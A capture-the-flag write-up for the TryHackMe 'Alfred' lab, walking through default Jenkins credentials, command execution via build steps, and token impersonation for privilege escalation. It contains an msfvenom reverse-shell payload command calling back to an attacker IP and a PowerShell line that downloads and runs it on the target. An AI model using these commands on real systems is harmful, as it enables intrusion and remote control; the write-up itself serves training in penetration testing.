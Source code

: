 # TryHackMe - Alfred
---

## Enum
Initially, when enumerating for open ports we can see that the ports 80, 8080 and 3389 are open. 
On port 8080 we can see that there's an automation server running which is called "Jenkins" (https://www.jenkins.io/).

## Weak creds
This sever has a login page on the index page:
![](/img/Pasted image 20210827190250.png)

The credentials are: `admin:admin` 

# Exploiting Jenkins
When enumerating the server, I notice that I can run commands to the server by entering them to the projects and running the project.
The process for runnign commands on the server is as follows: Jenkins -> project -> Configure -> "Build" tab -> enter command -> apply/ save -> Build Now.
![](/img/Pasted image 20210827190250.png)

# Initial access
I generated a meterpreter payload and transfered it to the server using powershell.
msfvenom:
```txt
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -a x86 lhost=10.10.218.77 lport=4444 -f exe -o met.exe
```
powershell download:
```txt
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.218.77:8888/met.exe', 'C:\Program Files (x86)\Jenkins\workspace\project\met.exe')"
```

![](/img/Pasted image 20210828114210.png)

Then just running "met.exe" using the same misconfiguration.

# User flag
![](/img/Pasted image 20210828115051.png)

# PrivEsc
When running whoami /priv we can see that we have some interesting priviliges like debug and SetImpersonate:
![](/img/Pasted image 20210828115240.png)

We'll be using the "incognito" module from metasploit in order to leverage this.
`meterpreter> load incognito`

Then we list what tokens we can impersonate:
`list_tokens -u/-g`

In this case we see that we can impersonate `BUILTIN\Administrators`. So we'll impersonate that token:
![](img/Pasted image 20210828115908.png)
(if shell commands dont work then migrate to a system process).

# Root flag
![](/img/Pasted image 20210828120047.png)
